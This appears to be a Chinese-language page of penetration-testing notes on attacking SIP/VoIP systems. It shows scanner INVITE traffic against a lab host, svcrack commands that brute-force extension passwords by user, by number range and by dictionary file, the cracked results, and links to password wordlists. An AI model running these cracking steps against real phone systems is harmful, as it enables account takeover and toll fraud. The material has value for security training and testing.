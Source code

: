 		INVITE sip:18101@172.16.8.181 SIP/2.0
		Via: SIP/2.0/UDP 127.0.1.1:5060;branch=z9hG4bK-3696435053;rport
		Content-Length: 0
		From: "18101"<sip:18101@172.16.8.181>;tag=313831303101343830393135363334
		Accept: application/sdp
		User-Agent: friendly-scanner
		To: "18101"<sip:18101@172.16.8.181>
		Contact: sip:18101@172.16.8.181
		CSeq: 1 INVITE
		Call-ID: 417485715
		Max-Forwards: 70

		INVITE sip:18102@172.16.8.181 SIP/2.0
		INVITE sip:18103@172.16.8.181 SIP/2.0
		INVITE sip:18104@172.16.8.181 SIP/2.0
		INVITE sip:18105@172.16.8.181 SIP/2.0

### svcrack

	-u 指定用户名破解密码
		root@kali:~# svcrack -u 18101 172.16.8.181
		| Extension | Password |
		------------------------
		| 18101     | 18101    |
		
	-r 指定密码序列破解密码
		root@kali:~# svcrack -u 18101 -r 18101-18105 172.16.8.181
		| Extension | Password |
		------------------------
		| 18101     | 18101    |
		
	-d 指定密码字典文件破解指定用户密码：
		root@kali:~# cat pass.txt 
		18101
		18102
		root@kali:~# svcrack -u 18101 -d pass.txt 172.16.8.181
		| Extension | Password |
		------------------------
		| 18101     | 18101    |
		
### 密码字典文件

	ftp://ftp.ibiblio.org/pub/linux/distributions/openwall/wordlists/
	http://wordlist.sourceforge.net/
	http://packetstormsecurity.org/Crackers/wordlists/
	http://www.phreak.org/html/wordlists.shtml
	http://www.cotse.com/tools/wordlists1.htm
	ftp://ftp.ox.ac.uk/pub/wordlists/
	http://www.word-list.com/
	http://www.outpost9.com/files/WordLists.html

